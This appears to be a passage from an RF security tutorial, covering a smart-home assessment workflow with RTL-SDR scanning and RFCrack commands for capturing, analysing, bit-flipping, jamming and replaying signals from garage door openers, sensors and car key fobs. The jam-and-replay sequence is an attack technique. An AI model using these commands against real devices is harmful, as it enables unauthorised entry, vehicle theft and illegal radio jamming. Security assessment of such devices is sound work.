 ### Practical Application: Smart Home Assessment

A complete workflow for assessing a smart home RF environment:

```bash
# 1. Initial RF scanning with RTL-SDR
rtl_power -f 300M:900M:100k -g 50 -i 10 -e 1h output.csv

# 2. Analyze scan results to identify active frequencies
python heatmap.py output.csv heatmap.png

# 3. Target specific active frequencies with RFCrack
python RFCrack.py -f 433920000 -m ASK_OOK -b 4800

# 4. Capture signals from devices like:
# - Garage door openers
# - Door/window sensors
# - Remote controlled outlets
# - Weather stations
# - Car key fobs
```

### Advanced RFCrack Techniques

#### Signal Analysis and Modification

```bash
# Capture and save a signal
startrecord signal1.cap

# Load and analyze the signal
import signal1.cap
analyze

# Modify captured signal
bitflip 10110101 01001010
```

#### Multi-stage attacks

```bash
# Jam and capture approach
set jam true
set freq 315000000
set mod ASK_OOK
# Activate jamming
# While jamming, capture legitimate signal
set capturefile signal1.cap
# End jamming and replay captured signal
replay signal1.cap
```

### Integration with SDR Tools
